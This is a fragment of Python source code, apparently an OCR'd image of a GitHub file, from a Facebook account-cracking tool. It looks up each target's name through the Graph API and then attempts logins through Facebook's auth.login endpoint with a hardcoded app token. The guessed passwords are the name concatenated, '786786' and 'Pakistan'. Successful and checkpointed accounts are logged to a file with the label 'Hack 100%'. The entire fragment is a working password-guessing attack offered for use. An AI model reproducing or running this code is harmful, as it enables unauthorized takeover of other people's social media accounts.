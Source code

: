 			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + b['last_name']
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = '786786'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = 'Pakistan'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)